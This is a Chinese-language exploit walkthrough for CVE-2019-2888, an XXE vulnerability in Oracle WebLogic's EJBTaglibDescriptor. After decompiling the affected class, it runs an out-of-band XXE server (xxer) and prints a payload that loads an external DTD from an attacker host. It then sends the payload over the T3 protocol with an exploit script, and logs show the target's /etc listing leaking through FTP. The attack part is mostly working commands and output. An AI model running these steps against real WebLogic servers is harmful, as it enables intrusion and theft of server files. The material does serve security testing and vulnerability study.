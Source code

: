 （CVE-2019-2888）Weblogic EJBTaglibDescriptor XXE漏洞
=====================================================

一、漏洞简介
------------

二、漏洞影响
------------

Weblogic Server 10.3.6.0.0版本、12.1.3.0.0版本和12.2.1.3.0版本的EJB
Container组件存在安全漏洞

三、复现过程
------------

### fernflower.jar

    weblogic.jar/weblogic/servlet/ejb2jsp/dd/EJBTaglibDescriptor.class
    ╭─root@jas502n /var 
    ╰─# find ./ |grep EJBTaglibDescriptor                                                                       ✔  8388  18:32:43 
    .//weblogic.jar/weblogic/servlet/ejb2jsp/dd/EJBTaglibDescriptor.class
    .//weblogic.jar/weblogic/servlet/ejb2jsp/gui/EJBTaglibDescriptorTree.class
    .//weblogic.jar/weblogic/servlet/ejb2jsp/gui/EJBTaglibDescriptorPanel.class
    ╭─root@jas502n /var 
    ╰─# ls                                                                                                      ✔  8392  18:33:22 
    EJBTaglibDescriptor.java fernflower.jar           weblogic.jar

#### EJBTaglibDescriptor.class to EJBTaglibDescriptor.java

    ╭─root@jas502n /var 
    ╰─# java -jar fernflower.jar .//weblogic.jar/weblogic/servlet/ejb2jsp/dd/EJBTaglibDescriptor.class ./
     ./
    INFO:  Decompiling class weblogic/servlet/ejb2jsp/dd/EJBTaglibDescriptor
    INFO:  ... done
    ╭─root@jas502n /var 
    ╰─# ls            
    EJBTaglibDescriptor.java fernflower.jar           weblogic.jar

#### cat EJBTaglibDescriptor.java

    ╭─root@jas502n /var 
    ╰─# cat EJBTaglibDescriptor.java

    package weblogic.servlet.ejb2jsp.dd;

    import java.io.Externalizable;
    import java.io.File;
    import java.io.FileInputStream;
    import java.io.IOException;
    import java.io.InputStreamReader;
    import java.io.ObjectInput;
    import java.io.ObjectOutput;
    import java.io.Reader;
    import java.io.StringReader;
    import java.io.StringWriter;
    import java.util.ArrayList;
    import java.util.Collection;
    import java.util.Enumeration;
    import java.util.Iterator;
    import java.util.List;
    import javax.xml.parsers.DocumentBuilder;
    import org.w3c.dom.Element;
    import org.xml.sax.InputSource;
    import weblogic.servlet.ejb2jsp.BeanGenerator;
    import weblogic.servlet.ejb2jsp.EJBMethodGenerator;
    import weblogic.servlet.ejb2jsp.EJBTaglibGenerator;
    import weblogic.servlet.ejb2jsp.HomeCollectionGenerator;
    import weblogic.servlet.ejb2jsp.HomeFinderGenerator;
    import weblogic.servlet.ejb2jsp.HomeMethodGenerator;
    import weblogic.servlet.internal.dd.ToXML;
    import weblogic.utils.Getopt2;
    import weblogic.utils.classloaders.ClasspathClassLoader;
    import weblogic.utils.io.XMLWriter;
    import weblogic.xml.dom.DOMProcessingException;
    import weblogic.xml.dom.DOMUtils;
    import weblogic.xml.jaxp.WebLogicDocumentBuilderFactory;

    public class EJBTaglibDescriptor implements ToXML, Externalizable {
       private static final long serialVersionUID = -9016538269900747655L;
       private FilesystemInfoDescriptor fileInfo;
       private BeanDescriptor[] beans;
       private transient ClassLoader jarLoader;
       private static final String PREAMBLE = "<?xml version=\"1.0\" encoding=\"ISO-8859-1\" ?>\n<!DOCTYPE ejb2jsp-taglib PUBLIC \"-//BEA Systems, Inc.//DTD EJB2JSP Taglib 1.0//EN\" \"http://www.bea.com/servers/wls600/dtd/weblogic-ejb2jsp.dtd\">";

       static void p(String var0) {
          System.err.println("[EJBTagDesc]: " + var0);
       }

### 漏洞利用

**下载python xxer**

    https://github.com/ianxtianxt/CVE-2019-2888
    info: Starting xxer_httpd on port 8989

    info: Starting xxer_ftpd on port 2121

    http://10.10.20.100:8989/ext.dtd
    python xxer.py -p 8989 -H 10.10.20.100

     _ _ _ _ ___ ___
    |_'_|_'_| -_|  _|
    |_,_|_,_|___|_|

    version 1.1

    info: Old DTD found. This file is going to be deleted.
    info: Generating new DTD file.
    info: Starting xxer_httpd on port 8989
    info: Starting xxer_ftpd on port 2121
    info: Servers started. Use the following payload (with URL-encoding):

    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE xmlrootname [<!ENTITY % aaa SYSTEM "http://10.10.20.100:8989/ext.dtd">%aaa;%ccc;%ddd;]>

**通过T3协议，发送序列化后的xml payload**

    ale@Pentest: ~/Desktop/CVE-2019-2888# python weblogic.py 10.10.20.100 7001                                                 


     _       __     __    __            _         _  ___  __ ______
    | |     / /__  / /_  / /___  ____ _(_)____   | |/ / |/ // ____/
    | | /| / / _ \/ __ \/ / __ \/ __ `/ / ___/   |   /|   // __/
    | |/ |/ /  __/ /_/ / / /_/ / /_/ / / /__    /   |/   |/ /___
    |__/|__/\___/_.___/_/\____/\__, /_/\___/   /_/|_/_/|_/_____/
                              /____/

         CVE-2019-2888 WebLogic EJBTaglibDescriptor XXE漏洞

                      python By jas502n



    [+] XXE_IP= 10.10.20.166
    [+] XXE_IP= 8989
    [+] http://10.10.20.166:8989/ext.dtd

    connecting to 10.10.20.100 port 7001
    sending "t3 12.2.1
    AS:255
    HL:19
    MS:10000000
    PU:t3://us-l-breens:7001

    "
    received "HELO"
    sending payload...

    ale@Pentest: ~/Desktop/CVE-2019-2888#

**get /etc dir info**

    root@kali:~/xxer# python xxer.py -p 8989 -H 10.10.20.166

     _ _ _ _ ___ ___
    |_'_|_'_| -_|  _|
    |_,_|_,_|___|_|

    version 1.1

    info: Old DTD found. This file is going to be deleted.
    info: Generating new DTD file.
    info: Starting xxer_httpd on port 8989
    info: Starting xxer_ftpd on port 2121
    info: Servers started. Use the following payload (with URL-encoding):

    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE xmlrootname [<!ENTITY % aaa SYSTEM "http://10.10.20.166:8989/ext.dtd">%aaa;%ccc;%ddd;]>


    10.10.20.100 - - [01/Nov/2019 12:58:42] "GET /ext.dtd HTTP/1.1" 200 -
    info: FTP: recvd 'USER fakeuser'
    info: FTP: recvd 'PASS .pwd.lock
    adduser.conf
    alternatives
    apparmor
    apparmor.d
    apt
    bash_completion.d
    bash.bashrc
    bindresvport.blacklist
    blkid.conf
    blkid.tab
    ca-certificates
    ca-certificates.conf
    console-setup
    cron.d
    cron.daily
    cron.hourly
    cron.monthly
    cron.weekly
    crontab
    dbus-1
    debconf.conf
    debian_version
